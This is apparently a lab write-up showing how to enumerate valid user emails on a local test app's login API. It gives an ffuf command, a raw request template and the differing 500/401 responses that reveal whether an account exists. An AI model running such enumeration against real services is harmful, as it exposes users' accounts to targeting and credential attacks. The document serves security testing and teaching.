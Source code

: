 ```bash
ffuf -request req.txt --request-proto http -w wordlist -mc 200
```

The content of "req.txt" is:
```http
POST /identity/api/auth/login HTTP/1.1
Host: localhost:8888
Content-Length: 49
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="104"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
sec-ch-ua-platform: "Linux"
Content-Type: application/json
Accept: */*
Origin: http://localhost:8888
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8888/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":FUZZ,"password":"password"}
```

The wordlist that I used only to PoC for this article contains these email:
- test@test.com
- notexist@test.com

The result of ffuf will be:
```bash
notexist@test.com       [Status: 500, Size: 74, Words: 6, Lines: 1, Duration: 32ms]
test@test.com           [Status: 401, Size: 54, Words: 2, Lines: 1, Duration: 111ms]
```

As we can see, the "notexist@test.com" gave us the HTTP code 500, instead the "test@test.com" gave us 401. This could be an hint to understand if an email exists. We can check by performing the request:
With test@test.com:
```http
HTTP/1.1 401 
Server: openresty/1.17.8.2
Date: Sat, 08 Apr 2023 14:58:45 GMT
Content-Type: application/json
Connection: close
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Length: 54

{"token":"","type":"","message":"Invalid Credentials"}
``` 
